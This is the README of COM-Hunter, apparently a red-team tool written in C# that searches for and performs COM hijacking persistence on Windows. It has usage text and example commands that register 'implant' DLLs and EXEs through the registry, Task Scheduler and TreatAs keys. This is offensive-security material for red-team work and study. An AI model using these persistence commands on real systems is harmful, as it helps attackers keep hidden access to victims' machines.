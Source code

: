 # COM-Hunter

COM Hijacking VOODOO

<p align="center">
  <img width="500" height="400" src="/Pictures/logo2.png"><br /><br />
  <img alt="GitHub License" src="https://img.shields.io/github/license/nickvourd/COM-Hunter?style=social&logo=GitHub&logoColor=purple">
  <img alt="GitHub Repo stars" src="https://img.shields.io/github/stars/nickvourd/COM-Hunter?logoColor=yellow"><br />
  <img alt="GitHub forks" src="https://img.shields.io/github/forks/nickvourd/COM-Hunter?logoColor=red">
  <img alt="GitHub watchers" src="https://img.shields.io/github/watchers/nickvourd/COM-Hunter?logoColor=blue">
  <img alt="GitHub contributors" src="https://img.shields.io/github/contributors/nickvourd/COM-Hunter?style=social&logo=GitHub&logoColor=green">
</p>

## Description

COM-Hunter is a COM Hijacking persistnce tool written in C#.

![Static Badge](https://img.shields.io/badge/.NET-4.8-blue?style=flat&logoSize=auto)
![Static Badge](https://img.shields.io/badge/Version-2.0%20-red?link=https%3A%2F%2Fgithub.com%2Fnickvourd%2FCOM-Hunter%2Freleases)

The following list explains the available modes:

- **Search Mode**: Searches for CLSIDs based on `LocalServer32`, `InprocServer32`, and registry hives `HKLM` and `HKCU`.
- **Classic Persist Mode**: Performs classic COM hijacking persistence using `LocalServer32` or `InprocServer32`.
- **Task Scheduler Mode**: Automatically establishes COM hijacking persistence via Task Scheduler using `LocalServer32` or `InprocServer32`.
- **TreatAs Mode**: Performs COM hijacking persistence via the TreatAs registry key and a fake (forwardable) CLSID using `LocalServer32` or `InprocServer32`.

> If you find any bugs, don’t hesitate to [report them](https://github.com/nickvourd/COM-Hunter/issues). Your feedback is valuable in improving the quality of this project!

## Disclaimer

The authors and contributors of this project are not liable for any illegal use of the tool. It is intended for educational purposes only. Users are responsible for ensuring lawful usage.

## Table of Contents

- [COM-Hunter](#com-hunter)
    - [Description](#description)
    - [Disclaimer](#disclaimer)
    - [Table of Contents](#table-of-contents)
    - [Acknowledgement](#acknowledgement)
    - [Usage](#usage)
    - [Examples](#examples)
    - [References](#references)

## Acknowledgement
 
This project created with :heart: by [@nickvourd](https://x.com/nickvourd) && [@S1ckB0y1337](https://x.com/S1ckB0y1337).

Special thanks to my friend [Marios Gyftos](https://www.linkedin.com/in/marios-gyftos-a6b62122/) for his invaluable assistance during the beta testing phase of this tool.

Inspired by the [RTO course](https://courses.zeropointsecurity.co.uk/courses/red-team-ops) from [@zeropointsecltd](https://x.com/zeropointsecltd).

## Usage

```
 ██████╗ ██████╗ ███╗   ███╗      ██╗  ██╗██╗   ██╗███╗   ██╗████████╗███████╗██████╗
██╔════╝██╔═══██╗████╗ ████║      ██║  ██║██║   ██║████╗  ██║╚══██╔══╝██╔════╝██╔══██╗
██║     ██║   ██║██╔████╔██║█████╗███████║██║   ██║██╔██╗ ██║   ██║   █████╗  ██████╔╝
██║     ██║   ██║██║╚██╔╝██║╚════╝██╔══██║██║   ██║██║╚██╗██║   ██║   ██╔══╝  ██╔══██╗
╚██████╗╚██████╔╝██║ ╚═╝ ██║      ██║  ██║╚██████╔╝██║ ╚████║   ██║   ███████╗██║  ██║
 ╚═════╝ ╚═════╝ ╚═╝     ╚═╝      ╚═╝  ╚═╝ ╚═════╝ ╚═╝  ╚═══╝   ╚═╝   ╚══════╝╚═╝  ╚═╝

                                   Version: 2.0
                             @nickvourd && @S1ckB0y1337
                  ~ Inspired during the RTO course by @zeropointsecltd ~

Usage: COM-Hunter.exe <mode> <options>

[+] Available Modes:
    search             Search Mode
    persist            Classic Persist Mode
    tasksch            Task Scheduler Mode
    treatas            TreatAs Mode

[+] Search Mode:
Usage:  COM-Hunter.exe search <CLSID> <options>
    -a, --all                   Search DLL and EXE implementations in HKLM and HKCU
    -i, --inprocserver32        Search DLL implementations in HKLM and HKCU
    -l, --localserver32         Search EXE implementations in HKLM and HKCU
    -m, --machine               Search DLL and EXE implementations in HKLM
    -u, --user                  Search DLL and EXE implementations in HKCU

[+] Classic Persist Mode:
Usage:  COM-Hunter.exe persist <CLSID> <binary_path> <option>
    -i, --inprocserver32        Set DLL implementation
    -l, --localserver32         Set EXE implementation

[+] Task Scheduler Mode:
Usage:  COM-Hunter.exe tasksch <binary_path> <option>
    -i, --inprocserver32        Set DLL implementation
    -l, --localserver32         Set EXE implementation

[+] TreatAs Mode:
Usage:  COM-Hunter.exe treatas <CLSID> <fake_CLSID> <binary_path> <option>
    -i, --inprocserver32        Set DLL implementation
    -l, --localserver32         Set EXE implementation
```

## Examples

:information_source: Search DLL and EXE implementations in HKLM and HKCU:

```
.\COM-Hunter.exe search 01575CFE-9A55-4003-A5E1-F38D1EBDCBE1 -a
```

:information_source: Search EXE implementations in HKLM and HKCU:

```
.\COM-Hunter.exe search "{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}" -l
```

:information_source: Advanced search EXE implementations in HKLM:

```
.\COM-Hunter.exe search "{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}" -l --machine
```

:information_source: Search EXE and DLL implementations in HKCU:

```
.\COM-Hunter.exe search AB8902B4-09CA-4bb6-B78D-A8F59079A8D5 --user
```

:information_source: Perform classic persistence using DLL implementation:

```
.\COM-Hunter.exe persist AB8902B4-09CA-4bb6-B78D-A8F59079A8D5 C:\Users\victim\Desktop\implant.dll -i
```

:information_source: Perform classic persistence using EXE implementation:

```
.\COM-Hunter.exe persist "{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}" C:\Users\victim\Desktop\implant.exe --localserver32
```

:information_source: Perform persistence via Task Scheduler using DLL implementation:

```
.\COM-Hunter.exe tasksch C:\Users\victim\Desktop\implant.dll --inprocserver32
```

:information_source: Perform persistence via the TreatAs registry key and a fake (forwardable) CLSID using DLL implementation:

```
.\COM-Hunter.exe treatas AB8902B4-09CA-4bb6-B78D-A8F59079A8D5 "{00000012-1312-1997-2605-F38D1EBDCBE1}" C:\Users\victim\Desktop\implant.dll -i
```

## References

- [Persistence: “the continued or prolonged existence of something”: Part 2 – COM Hijacking by MDSec](https://www.mdsec.co.uk/2019/05/persistence-the-continued-or-prolonged-existence-of-something-part-2-com-hijacking/)
- [Abusing the COM Registry Structure (Part 2): Hijacking & Loading Techniques by BOHOPS](https://bohops.com/2018/08/18/abusing-the-com-registry-structure-part-2-loading-techniques-for-evasion-and-persistence/)
- [Userland Persistence with Scheduled Tasks and COM Handler Hijacking by Enigma0x3](https://enigma0x3.net/2016/05/25/userland-persistence-with-scheduled-tasks-and-com-handler-hijacking/)
- [COM Objects Hijacking by Virus Total](https://blog.virustotal.com/2024/03/com-objects-hijacking.html)
